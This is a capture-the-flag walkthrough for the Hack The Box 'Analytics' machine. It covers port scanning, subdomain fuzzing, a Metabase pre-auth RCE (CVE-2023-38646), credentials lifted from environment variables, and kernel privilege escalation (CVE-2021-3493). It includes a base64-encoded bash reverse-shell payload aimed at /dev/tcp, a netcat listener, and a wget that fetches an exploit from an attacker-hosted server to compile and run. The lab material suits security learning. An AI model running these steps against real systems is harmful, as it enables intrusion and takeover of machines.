 # HTB Machine Walkthrough: Analytics

  

---

> [!IMPORTANT]

> **Please use this as a hint or guide if you're blocked at some point of this machine. I make these files for myself and to help some friends that are also doing these machines.**

  

> [!NOTE]

> **Try to get as far as you can by yourself or you will never learn to solve machines alone. Hope you the best and happy hacking <3.**

---

  

## 1. Fast Nmap Scan on the Provided IP

Start by scanning all ports to identify the open ones:

```bash
nmap -sS -p- --min-rate 5000 $machine_ip -vvv -oN nmap.txt
```

This reveals ports 22 (SSH) and 80 (HTTP) are open. ( I try to save the scan results just in case i need something of it later )

## 2. Recognition


Perform a service detection scan to identify versions and services:

```bash
nmap -p22,80 -sCV $machine_ip -vvv -oN serv_recon.txt
```

The results show that port 80 hosts an `nginx/1.18.0` server that redirects to `http://analytical.htb/`.

To discover subdomains, use FFUF:

```bash

ffuf -u  http://$machine_ip -H "Host: FUZZ.analytical.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac

```

A subdomain `data.analytical.htb` is identified, which reveals a Metabase login page when accessed.

  

## 3. Exploit Phase

  

### Exploiting CVE-2023-38646

  

Metabase is vulnerable to a pre-authenticated remote code execution vulnerability.

Retrieve the `setup-token` using the API endpoint:

```bash

curl http://data.analytical.htb/api/session/properties -s | jq -r '."setup-token"'

```
Prepare a reverse shell payload:

```bash

echo 'bash -i >& /dev/tcp/$YourMachine_IP/$NC_ListenerPort 0>&1' | base64

```
Start a netcat listener to capture the reverse shell:

```bash

nc -lnvp $NC_ListenerPort

```

Use Burp Suite or curl to send a crafted POST request to exploit the vulnerability. This provides access as the `metabase` user in a Docker container.

  

## 4. Privilege Escalation to "metalytics"

Inspect environment variables to find credentials (linpeas also works) :
```bash
env
```

The variables reveal credentials for the user `metalytics`. Use SSH to log in:
```bash
ssh  metalytics@$machine_ip
```
Now as user, retrieve and submit the user flag
```bash
cat user.txt
```
## 5. Privilege Escalation to Root

Check the kernel version for known vulnerabilities:
```bash
uname  -r
```

For this machine, [CVE-2021-3493](https://github.com/briskets/CVE-2021-3493/tree/main) so you just have to get into the repository and follow the steps to take advantage of this vector.
  

On your local machine open a simple http server with python so you can send the file to the target:

```bash
python3  -m  http.server  8080
```

  

On the target machine, get the expoit, compile it with gcc and execute it:

```bash
wget  http://10.10.14.101:8080/exploit.c

gcc  exploit.c  -o  exploit

./exploit
```
Now you should be root user, now just retrieve the root flag and submit it.

```bash

cat  /root/root.txt

```

  

---

**Congratulations: Machine completed**

---